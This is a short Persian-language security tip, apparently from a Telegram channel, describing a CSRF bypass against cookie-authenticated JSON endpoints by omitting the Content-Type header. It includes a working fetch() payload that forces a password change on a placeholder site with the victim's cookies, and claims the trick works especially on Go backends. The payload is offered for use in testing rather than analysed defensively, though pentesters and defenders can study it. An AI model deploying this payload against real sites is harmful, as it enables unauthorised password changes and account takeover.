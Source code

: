 # CSRF

🚀 Security Tip — CSRF Trick

🔍 وقتی داری تست CSRF انجام میدی، این روش رو هم امتحان کن!

اگه تارگتت Cookie-Based باشه و هیچ هدر خاصی برای CSRF Protection نداشته باشه،
ولی درخواست‌هاش رو با JSON Content-Type بفرسته، می‌تونی هدر Content-Type رو کلاً حذف کنی و Body رو هم همون‌جوری JSON بذاری.
اگه سرور همچنان JSON رو Parse کرد، یعنی میشه خیلی راحت Exploit کرد.

Exploit Code:

fetch("https://vulnerable-corp.com/profile/edit", {
  method: "POST",
  body: new Blob([JSON.stringify({ change_password: "newPassword" })]),
  credentials: "include",
});


با این تکنیک، CSRF خیلی جاها جواب میده, مخصوصا توی بک اند های که با golang نوشته شده باشه.

t.me/GOTOCVE

=======================================

